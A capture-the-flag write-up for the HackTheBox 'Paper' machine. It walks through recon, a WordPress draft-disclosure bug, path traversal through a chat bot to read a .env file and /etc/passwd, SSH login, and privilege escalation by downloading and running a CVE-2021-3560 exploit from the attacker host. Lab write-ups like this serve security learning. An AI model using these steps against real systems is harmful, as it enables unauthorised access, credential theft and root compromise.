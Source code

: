 ```yaml
---
title: Hackthebox Paper Writeup
slug: hackthebox-paper-writeup
description: Hackthebox release new machine called paper, in this machine on port 80 it's first leak the new vhost called office.paper on responce header X-Backend-Server after that wordpress version is vernable through Unauthenticated View Private/Draft Posts and we got the hint already with nick comment using the vernability we check the draft message that leak to another vhost and register ourself to that and get the directory Path Traversal and get the .env secret and login through ssh and for Privilege escalation we run linpeas that lead us to CVE-2021-3560.
date: 2022-02-07
image: hackthebox-paper-writeup.webp
---
```



## Nmap

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ nmap -sC -sV -oA nmap/result 10.10.11.143
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-07 00:04 CST
Nmap scan report for 10.10.11.143
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds
```

## Port-80

It's a simple `static` page.

<FixTheImageURL src='web.png' slug='hackthebox-paper-writeup' />

Going over https site on port `443`. let's check the `certificate` first.

<FixTheImageURL src='web1.png' slug='hackthebox-paper-writeup' />

No `usefull information` on certificates let's now check the `web page`.

Same page which we see on `port 80`. nothing useful

<FixTheImageURL src='web2.png' slug='hackthebox-paper-writeup' />

I run the `gobuster` in background and `nothing found` there let's check the `responce headers` of the port `80`

<FixTheImageURL src='burp.png' slug='hackthebox-paper-writeup' />

And we found a `new vhost` let's add this on `/etc/hosts` file.

## office.paper

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       parrot

#custom
10.10.11.143    office.paper

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Got a `new web page`. Theme look like `wordpress` theme let's conform that with `checking the footer`.

<FixTheImageURL src='web3.png' slug='hackthebox-paper-writeup' />

Yup i am right it's running `wordpress 5.2.3`

<FixTheImageURL src='web4.png' slug='hackthebox-paper-writeup' />

And i found one comment which tell `michael` to remove the `secret content` in drafts ASAP.

But for checking the `drafts` we need `admin creads` that we don't have till now.

<FixTheImageURL src='web5.png' slug='hackthebox-paper-writeup' />

Now let's search the exploit for `wordpress 5.2.3` on google.

## WordPress 5.2.3 - Unauthenticated View Private/Draft Posts

<br />
Link : https://wpscan.com/vulnerability/9909

This vulnerability could allow an `unauthenticated user` to view private or `draft posts` due to an issue within `WP_Query`.

For that we just need to add `?static=1` after the url.

<FixTheImageURL src='web6.png' slug='hackthebox-paper-writeup' />

## chat.office.paper

And we get the `secret` that tell us about `new vhost` and registration url. let's add the vhost in `/etc/hosts` file.

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       parrot

#custom
10.10.11.143    office.paper chat.office.paper

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Going to `registration url` we get the registration form let's `register ourself`.

<FixTheImageURL src='web7.png' slug='hackthebox-paper-writeup' />

Now we are inside the `dashboard` let's click on general.

<FixTheImageURL src='web8.png' slug='hackthebox-paper-writeup' />

In the chat there is `recyclops bot` that helps the user to list the sales directory with `list command` and with `file command` we can view the content inside the file.

<FixTheImageURL src='web9.png' slug='hackthebox-paper-writeup' />

let's chat with `recyclops bot`.

<FixTheImageURL src='web10.png' slug='hackthebox-paper-writeup' />

I am using the `list and file command` to get the content inside `directory`.

<FixTheImageURL src='web11.png' slug='hackthebox-paper-writeup' />

the list `command list` the directory of current path let's try directory `Path Traversal` using `../`

And we get the previous `directory content`. hubot directory looks `interesting` let's check the content in that.

<FixTheImageURL src='web12.png' slug='hackthebox-paper-writeup' />

Got a `.env` file. `.ENV` file usually use to store `secrets`.

<FixTheImageURL src='web13.png' slug='hackthebox-paper-writeup' />

let's check the content in that using file `../hubot/.env`

And we got the `username` and `password`.

<FixTheImageURL src='web14.png' slug='hackthebox-paper-writeup' />

Let's try these `creads` to login inside `rocket.chat`

<FixTheImageURL src='web15.png' slug='hackthebox-paper-writeup' />

Let's check the `user available` in this machine using file `../../../etc/passwd`

<FixTheImageURL src='web16.png' slug='hackthebox-paper-writeup' />

## Shell as dwight

Let's try to `login` through ssh with `dwight user`.

And we got the `user.txt`

```js
┌───[us-free-1]─[10.10.14.41]─[root@parrot]─[~/Desktop/HTB/Paper]
└──╼ [★]$ ssh dwight@10.10.11.143
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ECDSA) to the list of known hosts.
dwight@10.10.11.143's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Mon Feb  7 01:33:06 2022 from 10.10.14.36
[dwight@paper ~]$ cat user.txt
de10a0c07ef81100a812a1bf274d0364
[dwight@paper ~]$
```

## Privilege escalation

### Recon with linpeas

let's run `linPEAS`.

And we see this machine is vulnerable to `CVE-2021-3560` that is `Polkit or Pwnkit` which allows `unprivileged user` to call privileged methods using `DBus`.

<FixTheImageURL src='cmd.png' slug='hackthebox-paper-writeup' />

## CVE-2021-3560

<br />
Link : https://github.com/Almorabea/Polkit-exploit

Let's get this `python script` inside this `machine` and `run` this.

```js
[dwight@paper tmp]$ wget http://10.10.14.41/CVE-2021-3560.py
[dwight@paper tmp]$ chmod +x CVE-2021-3560.py
[dwight@paper tmp]$ python3 CVE-2021-3560.py
```

And we get the `root.txt` file.

<FixTheImageURL src='cmd1.png' slug='hackthebox-paper-writeup' />
